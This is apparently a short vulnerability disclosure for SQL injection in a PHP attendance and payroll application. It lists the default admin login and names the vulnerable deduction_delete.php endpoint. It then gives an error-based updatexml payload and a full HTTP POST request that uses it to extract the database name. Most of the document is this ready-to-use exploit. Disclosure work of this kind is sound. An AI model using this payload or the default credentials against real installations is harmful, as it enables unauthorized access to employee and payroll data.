 # Attendance and Payroll System v1.0 - SQL injection

username:nurhodelta password:password ----> {ip}apsystem/admin/index.php

Supplier： https://www.sourcecodester.com/php/12268/attendance-and-payroll-system-using-php.html

\admin\deduction_delete.php has SQL injection

Payload: id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+&delete=

SQL injection because id can be closed

![image](https://user-images.githubusercontent.com/54017627/159227957-7b1d2136-f5e6-4659-9698-15d50ce108b7.png)

```sql
POST /apsystem/admin/deduction_delete.php HTTP/1.1
Host: 192.168.1.17
Content-Length: 12
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.1.17
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.1.17/apsystem/admin/deduction.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=2nud4pa7qt6oo5odl3120a4bta
Connection: close

id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+&delete=
```

![image](https://user-images.githubusercontent.com/54017627/159228037-8c459b59-f851-414e-b658-ef396f60a627.png)

![image](https://user-images.githubusercontent.com/54017627/159228101-d7f7155e-9c9c-4d12-8d08-c18a117f3059.png)

